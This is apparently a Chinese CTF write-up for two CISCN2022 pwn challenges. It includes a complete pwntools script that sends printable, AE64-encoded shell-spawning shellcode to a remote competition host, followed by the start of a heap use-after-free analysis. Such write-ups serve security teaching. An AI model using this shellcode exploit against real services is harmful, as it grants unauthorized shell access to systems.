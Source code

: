 ```yaml
---
title: 【CISCN2022】初赛PWN部分writeup
index_img: https://img-blog.csdnimg.cn/509bcd48db954ee2a913e5d325ac2c72.png
excerpt: ciscn2022初赛pwn方向login-normal和newest-note题解
---
```

# login-normal

题如其名，一道简单的签到题目，比赛被打烂了。主要在于代码分析，还有可打印shellcode的利用。这里我用的是github上一个大佬的项目AE64，可以用来生成可打印的shellcode，相当好用，强推,链接放在这里。

>  [veritas501/ae64: basic amd64 alphanumeric shellcode encoder (github.com)](https://github.com/veritas501/ae64)

```Python
from pwn import *
from ae64 import AE64

context.arch = 'amd64'
# io = process('./login')
io = remote('59.110.105.63', 29289)
payload = b'msg:ro0t\r\nopt:1\r\n'

io.sendline(payload)

sc = AE64()

shellocde = sc.encode(asm(shellcraft.sh()),'rdx')
payload = b'msg:'+shellocde+b'\r\nopt:2\r\n'


io.sendline(payload)
io.interactive()
```

# newest_note

 一道堆题目，比赛结束一个多小时才勉强做出来，非常可惜。主要还是不了解新libc的一些进制了解，临时学了下面这篇文章，才有个初步了解。建议先看完这篇文章，再来看我的wp。

>  [Heap Exploit v2.31 | 最新堆利用技巧，速速查收 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/136983333)
>  [浅谈glibc新版本保护机制及绕过方法 – 绿盟科技技术博客 (nsfocus.net)](http://blog.nsfocus.net/glibc-234/)

## 伪代码分析

简单看了伪代码后主要有如下几个重点

- free之后没有置空，存在UAF漏洞，可以通过show泄露freechunk的内容

![img](https://img-blog.csdnimg.cn/509bcd48db954ee2a913e5d325ac2c72.png)
